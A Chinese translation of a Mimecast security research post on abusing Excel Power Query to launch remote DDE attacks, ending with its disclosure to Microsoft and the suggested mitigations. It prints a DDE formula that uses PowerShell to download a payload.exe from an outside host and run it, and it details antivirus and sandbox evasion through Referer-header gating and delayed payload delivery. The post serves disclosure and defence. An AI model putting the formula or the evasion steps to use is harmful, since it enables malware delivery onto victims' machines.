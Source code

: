 > 原文链接: https://www.anquanke.com//post/id/181206 


# 如何利用Power Query功能实现DDE攻击


                                阅读量   
                                **199406**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者mimecast，文章来源：mimecast.com
                                <br>原文地址：[https://www.mimecast.com/blog/2019/06/exploit-using-microsoft-excel-power-query-for-remote-dde-execution-discovered/](https://www.mimecast.com/blog/2019/06/exploit-using-microsoft-excel-power-query-for-remote-dde-execution-discovered/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t01472fe51e4c4ead81.jpg)](https://p2.ssl.qhimg.com/t01472fe51e4c4ead81.jpg)



## 0x00 前言

Mimecast Threat Center发现并开发了一种攻击技术，可以利用Microsoft Excel中的Power Query功能动态启动针对Excel电子表格的远程DDE（Dynamic Data Exchange）攻击，主动控制利用Power Query的payload。

[Power Query](https://support.office.com/en-us/article/power-query-overview-and-learning-ed614c81-4b00-4291-bd3a-55d80767f81d)是一款强大且可扩展的BI（Business Intelligence，商业智能）工具，可以帮助用户将电子表格与其他数据源（如外部数据库、文本文档、其他电子表格或者web页面等）集成。当链接外部源时，数据可以加载并保存到电子表格中，或者采用动态加载方式（比如当文档打开时再加载）。

Mimecast Threat Center团队发现将Power Query与其他攻击方法结合起来后，可以发起较为复杂的、难以检测的攻击行为。攻击者可以使用Power Query将恶意内容嵌入独立数据源中，然后在电子表格打开时将该内容载入表格中。恶意代码可以用来释放并执行恶意软件，攻陷用户主机。

Excel的这个特性提供了非常丰富的控制功能，可以在投递其他payload之前收集沙箱或者受害者主机的指纹信息。攻击者在攻击和payload投放前可能具备一定的控制能力，可以让沙箱或其他安全解决方案无法检测该文件的情况下，将恶意payload投放到受害者主机中。

Mimecast与微软合作，遵循CVD（[Coordinated Vulnerability Disclosure](https://www.microsoft.com/en-us/msrc/cvd)，协调漏洞披露）流程来判断这是Power Query的正常行为还是需要解决的问题。微软目前拒绝发布修复补丁，决定提供一种解决办法来缓解此问题。

在本文中我们将详细分析如何利用Power Query来发起DDE攻击，通过文件共享站点来释放并执行payload。



## 0x01 利用Power Query的攻击方法

由于Power Query是Microsoft Excel中的一款强大工具，因此滥用该功能所能造成的潜在危险也不容忽视。如果成功利用，攻击者可以集合其他潜在的攻击面来发起复杂的攻击，包括本地权限提升、DDE攻击以及远程代码执行等。

Power Query功能可以帮助用户非常方便且动态地嵌入远程内容。这种攻击形式通常难以发现，使攻击者更有机会突破受害者主机。利用Power Query中的潜在脆弱性，攻击者可以嵌入任何恶意payload，并且这些payload不需要保存在文档中，可以在文档打开时从web远程下载。

为了演示如何利用Power Query来启动DDE攻击，我们可以编写一个自定义的简单HTTP服务器，在web页面上托管payload，然后将这个web页面载入电子表格中。HTTP服务器可以在本地80端口上监听，当收到来自电子表格的请求时，返回所需的DDE内容。

```
=cmd|'/c powershell -command "&amp; `{` iwr https://www.dropbox.com/s/jo94jn2s3j84mfr/payload.exe?dl=1 -OutFile payload.exe `}`";cmd /c payload.exe'!A1,
```

[![](https://p3.ssl.qhimg.com/t011f5d8f1142af0e4f.png)](https://p3.ssl.qhimg.com/t011f5d8f1142af0e4f.png)

Microsoft Excel 2016电子表格使用Power Query来查询我们构造的恶意web页面（`http://127.0.0.1:80`）。

[![](https://p5.ssl.qhimg.com/t014b038eaf72c0baef.png)](https://p5.ssl.qhimg.com/t014b038eaf72c0baef.png)

随后远程内容会被读取并载入电子表格中。

[![](https://p2.ssl.qhimg.com/t01b738f4d24faf74dd.jpg)](https://p2.ssl.qhimg.com/t01b738f4d24faf74dd.jpg)

我们可以使用Wireshark来捕捉攻击数据流。下图中高亮标记的数据包分别为包含DDE公式的数据包、对`dropbox.com`的DNS请求（`payload.exe`托管在Dropbox上）以及用来投放payload的HTTPS会话。

[![](https://p5.ssl.qhimg.com/t01e07f2766fdc9bcad.png)](https://p5.ssl.qhimg.com/t01e07f2766fdc9bcad.png)

[![](https://p3.ssl.qhimg.com/t0108c401984a441fda.png)](https://p3.ssl.qhimg.com/t0108c401984a441fda.png)



## 0x02 分析文件格式

分析文件格式后，我们可以看到`table/table1.xml`中包含`name: “localhost”`属性（默认）以及`type: “queryTable”`属性。

表格以及特定查询表格属性的链接位于`.rels`流中（`_rels/table1.xml.rels`），其中包含一个`target`字段，该字段指向的是`../queryTables/queryTable1.xml`。`quetyTable1.xml`会在`&lt;queryTable&gt;`标签下通过`connectionId`字段连接到`connection.xml`（该文件中包含所有文档连接属性）。程序会使用`Select *`命令通过`dbPr`对象发起连接。

web查询请求存放在`xl\customXL\item1`文档中，经过base64编码。

[![](https://p2.ssl.qhimg.com/t01941797f5c9634565.png)](https://p2.ssl.qhimg.com/t01941797f5c9634565.png)

base64解码后，我们打开其中的`section1`文档，其中就包含查询请求。

[![](https://p5.ssl.qhimg.com/t01d606261c8a75940c.png)](https://p5.ssl.qhimg.com/t01d606261c8a75940c.png)

为了运行DDE，用户需要双击加载DDE的单元格，然后再次点击释放。这些操作将会触发DDE，启动来自web的payload。



## 0x03 绕过双击限制实现自动化执行

为了绕过“点击运行”限制，我们发现在老版的Microsoft Office对“从Web获取外部数据”的实现与现在版本有所不同。前面提到过，我们使用Microsoft Office 2016时会创建`dbPr`，用户需要采取某些操作才能激活payload（在沙箱等场景中，这种点击操作会达到沙箱绕过效果）。

当在老版本Office（比如2010）中“从Web获取外部数据”时，在`Connections.xml`下创建的对象并不是前文提到的`dbPr`，而是`webPr`，后者会更加简单。与`dbPr`不同，`webPr`并不需要任何用户操作，就可以运行payload。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0111e99226bfc56144.png)



## 0x04 使用Power Query绕过AV及沙箱

我们可以在web请求中添加头部字段，使payload能够绕过专门针对这类恶意内容的反病毒软件以及沙箱环境。只有请求中包含特定的HTTP头部字段时，web服务器才会提供恶意内容。反病毒产品会从文件中提取HTTP服务器的URL地址，但并不会去解析头部数据。当AV发送测试请求时，服务器知道该请求来自于AV，而非电子表格。

只有当HTTP头中的`Referer`字段值设置为`www.google.com`时，我们才会提供DDE数据。

[![](https://p3.ssl.qhimg.com/t01905e67e27675a74a.png)](https://p3.ssl.qhimg.com/t01905e67e27675a74a.png)

我们可以在Power Query的“高级”模式中设定web请求头。Power Query会使用我们设置的`Referer`字段来发起web请求。

[![](https://p4.ssl.qhimg.com/t01d774daa369eae10b.png)](https://p4.ssl.qhimg.com/t01d774daa369eae10b.png)

如果另一个程序想尝试部分模拟Power Query的行为，不使用正确的`Referer`字段请求web页面，就不能得到正确结果。只有使用Microsoft Excel应用来打开原始文档时才能获取payload数据。

[![](https://p1.ssl.qhimg.com/t0165f5798a0498d2e2.png)](https://p1.ssl.qhimg.com/t0165f5798a0498d2e2.png)

由于沙箱环境也会在请求中发送自定义头部，因此我们需要一种新的方法来避免被检测。这里我们可以使用Power Query中的“auto refresh”（自动刷新）以及“refresh”（刷新）时间间隔参数。

[![](https://p5.ssl.qhimg.com/t01408b8b05ad93f94e.png)](https://p5.ssl.qhimg.com/t01408b8b05ad93f94e.png)

为了避免文件中存在恶意内容，使该文件被标记为恶意软件，我们可以强制让文件在打开时刷新数据，然后在保存文件前移除来自外部数据源的数据。这些属性可以确保在文件打开时会更新文件中的payload。我们可以设置文件每分钟刷新一次（这是最短的时间间隔），然后在第10次请求时提供payload数据。这意味着如果沙箱运行该文件的时间少于10分钟，那么就永远拿不到我们的payload。

[![](https://p3.ssl.qhimg.com/t01b0e95ad1442a15e6.png)](https://p3.ssl.qhimg.com/t01b0e95ad1442a15e6.png)

对于我们提供的攻击样例，大多数静态分析AV都检测不出该文件（其中并不包含payload数据），而沙箱或其他安全解决方案只会一次或者两次下载web内容，因此也检测不出来。

[![](https://p5.ssl.qhimg.com/t0182c617492359c346.png)](https://p5.ssl.qhimg.com/t0182c617492359c346.png)



## 0x05 缓解措施

Mimecast Threat Center团队向MRSC（Microsoft Security Response Center）反馈了我们得到的信息以及可用的PoC。MRSC创建了一个case，但决定不修复这种行为，而是采用组策略来组织外部数据连接或者使用Office Trust中心来缓解这个问题。MRSC同意我们根据CVD策略发布此次研究成果。

微软发布了一个安全公告（[4053440](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)），提供了为Microsoft Office应用进行安全设置的相关步骤及过程。该公告可以指导用户如何确保应用程序安全处理DDE字段。

攻击者一直都希望能够绕过受害者部署的检测机制。随着时间的推移，由于各种安全专家及信息共享平台都在分享威胁情报数据，因此这类攻击方式可能会被检测出来。Mimecast强烈建议所有Microsoft Excel客户部署微软提供的缓解方案，因为这类攻击方法可以对微软客户造成实际且有破坏性的安全风险。

[Mimecast Targeted Threat Protection](https://www.mimecast.com/products/email-security-with-targeted-threat-protection/attachment-protect/)通过高级深入解析、去混淆处理，对每个文件进行实时代码分析，可以检测并阻止这种攻击技术。
